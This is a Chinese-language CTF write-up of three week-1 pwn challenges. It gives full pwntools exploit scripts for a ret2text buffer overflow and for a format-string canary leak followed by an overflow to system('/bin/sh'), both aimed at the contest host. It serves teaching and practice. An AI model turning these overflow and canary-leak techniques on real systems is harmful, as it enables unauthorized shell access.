







## week1

### Light Forest

checksec看文件架构、保护机制  
  
ida分析，简单的gets函数溢出  
  
并且在restore_light中有现成的system('/bin/sh')，ret2text题型，exp如下：
```python
from pwn import *

context(arch = 'amd64', os = 'linux')

io = remote('nc1.ctfplus.cn', 44587)

sys_addr = 0x401180

payload = b'a' * 40 + p64(sys_addr)

io.sendline(payload)
io.interactive()
```

### Withered Tree

checksec查保护机制，发现有Canary保护  
  
ida静态分析，发现格式化字符串漏洞和缓冲区溢出漏洞  
  
因此我们利用格式化字符串泄露Canary，然后再通过缓冲区溢出调用程序中原有的system('/bin/sh')函数，再通过ret补一下栈对齐问题，exp如下：
```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = remote('nc1.ctfplus.cn', 41354)

io.recvuntil(b'Tell me your prophecy:\n')
io.sendline(b'%23$p')
canary = int(io.recvline().strip(), 16)

sys_addr = 0x4011FF
ret_addr = 0x40101a

payload = b'a' * 72 + p64(canary) + b'a' * 8 + p64(ret_addr) + p64(sys_addr)

io.sendline(payload)
io.interactive()
```

### Lost Ruins Terminal

无附件，nc连上去看看，原来是个教linux基础命令的题目  
查文件类型用file命令  
  
chmod +x为文件添加执行权限  
  
剩下的一样，都是根据它的要求回答命令，错三次就告诉你正确答案，最后就会给你输出flag  

